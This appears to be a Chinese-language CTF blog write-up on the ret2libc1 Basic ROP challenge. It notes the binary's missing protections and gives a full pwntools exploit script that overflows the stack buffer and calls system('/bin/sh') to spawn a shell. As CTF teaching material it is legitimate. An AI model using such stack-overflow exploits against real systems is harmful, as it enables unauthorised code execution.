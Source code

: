 ```yaml
---
title: 「PWN」BasicROP　-　Ret2Libc
date: 2021-12-12 10:23:56
tags: ['CTF', 'Pwn', ]
categories: ['CTF']
authors: [nova]
index_img: https://novanoir.moe/img/ctf_logo_1.png
banner_img: https://novanoir.moe/img/ctf_banner_1.png

---
```


# Basic ROP - Ret2libc

痛定思痛了属于是，连续几次比赛一题做不出来，得到了zbr爹的~~指~~指点~~点~~，决定自裁。

整。



## ret2libc1

检查一下保护，没有Canary也没有PIE，32位ELF

![](https://cdn.novanoir.moe/img/image-20211212102309182.png)

在string列表里即看得到`system`也看得到`/bin/sh`

![](https://cdn.novanoir.moe/img/image-20211212102632678.png)

简单的构造一个函数覆盖返回地址即可

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc1")
elf = ELF("./ret2libc1")

system_addr = 0x8048460  # plt
# system_addr = elf.plt["system"]  # it works as well
binsh_addr = 0x08048720
sh.recvuntil(b"RET2LIBC >_<\n")

payload = b'A'*(0x6c+0x04) + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.sendline(payload)
sh.interactive()

```
